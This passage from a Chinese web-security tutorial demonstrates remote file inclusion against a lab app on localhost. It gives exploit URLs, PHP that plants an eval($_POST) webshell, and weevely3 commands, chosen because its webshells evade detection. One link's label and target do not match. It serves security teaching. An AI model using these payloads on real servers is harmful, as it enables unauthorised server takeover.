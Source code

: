 得到 GET 请求地址与参数，可以看出用于包含文件的参数 filename 被设置为 "include/file3.php"：

```java
http://127.0.0.1:8080/vul/fileinclude/fi_remote.php?filename=include%2Ffile3.php&submit=%E6%8F%90%E4%BA%A4
```

修改 filename 参数为[http:/127.0.0.1/phpinfo.php](http://www.1491.com.tw/phpinfo.php)，该 phpinfo.php 就执行 phpinfo() 函数，访问如下 URL：

```java
http://127.0.0.1:8080/vul/fileinclude/fi_remote.php?filename=http://127.0.0.1/phpinfo.php&submit=%E6%8F%90%E4%BA%A4
```

phpinfo 执行成功了：

![图片3.png](https://s0.lgstatic.com/i/image/M00/94/50/CgqCHmAX4DSAJYH3AAQINnkRH5s611.png)  
图 3 远程文件包含执行 phpinfo

接入来利用就简单了，我们直接远程包含一个创建一句话木马的 txt 文件，不用 PHP 后缀是为了避免在自己服务器被执行。

为了演示，我在 [http://127.0.0.1/shell.txt](http://127.0.0.1/shell.txth) 创建文件（如果你没有自己的服务器，去 github 上存储一个木马文件也是可行的），写入如下代码，用于生成一句话木马：

```php
<?php
  $a = "<?php eval(\$_POST['Cknife'])?>";
  file_put_contents("a.php",$a);
?>
```

然后访问如下 URL 就会在服务端生成一句话木马文件 a.php：

```java
http://127.0.0.1:8080/vul/fileinclude/fi_remote.php?filename=http://127.0.0.1/shell.txt&submit=%E6%8F%90%E4%BA%A4
```

成功生成一句话木马文件 a.php：

```java
sudo docker exec -it 7286434c6e88 /bin/bash
root@7286434c6e88:/# cat /var/www/html/a.php
<?php eval($_POST['Cknife'])?>
```

与《13 \| 文件上传漏洞：种植服务器木马的捷径》中关于文件上传漏洞利用的方法一样，你可以用 Cknife、菜刀、冰蝎等客户端工具去连接一句话木马，就可以直接控制服务器了，此处不再赘述。

前面介绍的一句话木马比较容易被检测到，个人喜欢使用 [weevely3](https://github.com/epinna/weevely3)，因为它支持变形的一句话木马：

```java
$ python3 weevely.py
[+] weevely 4.0.1
[!] Error: the following arguments are required: path
[+] Run terminal or command on the target
    weevely <URL> <password> [cmd]
[+] Recover an existing session
    weevely session <path> [cmd]
[+] Generate new agent
    weevely generate <password> <path>
$ python3 weevely.py generate 'test' ./shell.php
Generated './shell.php' with password 'test' of 761 byte size.
```

